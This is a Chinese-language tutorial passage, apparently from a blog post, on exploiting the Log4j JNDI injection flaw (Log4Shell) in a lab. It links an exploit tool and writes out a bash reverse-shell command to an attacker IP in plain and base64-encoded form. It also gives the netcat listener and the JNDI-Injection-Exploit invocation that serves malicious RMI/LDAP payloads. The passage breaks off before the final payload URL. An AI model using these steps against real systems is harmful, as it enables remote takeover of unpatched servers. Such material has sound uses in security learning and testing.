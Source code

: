 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar工具下载地址：  
https://github.com/bkfish/Apache-Log4j-Learning/tree/main  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaTqicmXxjqSdrAiaUZ7FB3Hkdh2J5MnLquXicYH2QIgBLtnZAjhRRD3rPA/640?wx_fmt=png&from=appmsg "")  
  
  
反弹shell的命令：  
```
bash -i >& /dev/tcp/192.168.103.129/1234 0>&1
```  
```


```  
  
这个反弹shell的命令在执行之前必须要base64编码一下，  
  
Runtime.exec Payload Generater | AresX's Blog (ares-x.com)  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOabd4a89s2k2vopz6FBBdLRJI7KnGokjebs1yOdYHIh94ECmqiaZ60hMQ/640?wx_fmt=png&from=appmsg "")  
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMy4xMjkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}
```  
```


```  
  
应用工具JNDI-Injection-Exploit搭建服务：格式：  
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "命令" -A "kali IP地址"
```  
```


```  
#### 步骤如下  
  
1、我们先在kali进行监听1234端口  
```
┌──(root💀kali)-[~]
└─# nc -lvnp 1234
```  
  
2、**执行EXP，生成可用的payload**  
（这里建议在kali里面执行这个命令，因为我开始用windows本地没有反弹shell成功） 编码后的命令通过-C参数输入JNDI工具，通过通过-A参数指定kali的ip地址：  
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEwMy4xMjkvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.103.129"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWUYPCRP3m40cWfqPjuvYeOaYwzJlPU0uB23paph9tGoVKGFO6icFHd977dgFHENBn3GFBphcJuFMlg/640?wx_fmt=png&from=appmsg "")  
  
可以看到，这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，其中JDK1.7和JDK1.8的都可以，并且rmi和ldap两个协议都可以进行JNDI注入测试，但是如果你了解了这个漏洞修复的时间以及版本，就会知道ldap的版本使用范围更具广，这就是为什么大多数人会用ldap测试的原因。  
  
  
3、 最后一步就是构造payload了，由于是GET方式，浏览器访问以下任意一个url即可：  
  